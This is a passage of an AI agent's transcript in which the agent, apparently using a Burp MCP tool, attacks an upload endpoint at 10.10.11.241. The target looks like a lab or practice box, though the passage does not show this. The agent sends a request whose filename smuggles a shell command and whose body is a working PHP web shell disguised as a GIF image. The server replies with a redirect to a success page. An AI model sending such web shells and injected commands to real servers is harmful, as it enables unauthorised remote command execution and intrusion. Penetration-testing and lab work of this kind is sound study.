 The file is not accessible at /shell.php.gif. Let's try a different approach by attempting to exploit potential command injection vulnerabilities in the image processing functionality. Let's try to upload a file with a filename that includes shell metacharacters.

<use_mcp_tool>
<server_name>burpmcp</server_name>
<tool_name>http1-send</tool_name>
<arguments>
{
  "data": "POST /upload.php HTTP/1.1\r\nHost: 10.10.11.241:8080\r\nUser-Agent: Mozilla/5.0\r\nAccept: text/html,application/xhtml+xml,application/xml\r\nCookie: PHPSESSID=6qaatgee7p8mj7aeu3fc0g3jtn\r\nContent-Type: multipart/form-data; boundary=---------------------------12345678901234567890123456789\r\nContent-Length: 336\r\nConnection: close\r\n\r\n-----------------------------12345678901234567890123456789\r\nContent-Disposition: form-data; name=\"image\"; filename=\"shell.jpg;id > /tmp/test.txt;\"\r\nContent-Type: image/jpeg\r\n\r\nGIF89a;\r\n<?php\r\nif(isset($_REQUEST['cmd'])){\r\n    echo \"<pre>\";\r\n    $cmd = ($_REQUEST['cmd']);\r\n    system($cmd);\r\n    echo \"</pre>\";\r\n}\r\n?>\r\n-----------------------------12345678901234567890123456789--",
  "host": "10.10.11.241",
  "port": 8080,
  "secure": false
}
</arguments>
</use_mcp_tool>

---

**User:**

[use_mcp_tool for 'burpmcp'] Result:
HTTP/1.1 302 Found
Date: Wed, 07 May 2025 23:40:02 GMT
Server: Apache/2.4.55 (Ubuntu)
Location: /success.php
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8


<environment_details>
# VSCode Visible Files
(No visible files)

# VSCode Open Tabs
(No open tabs)

# Current Time
5/7/2025, 12:40:04 PM (America/New_York, UTC-4:00)

# Context Window Usage
39,032 / 200K tokens used (20%)
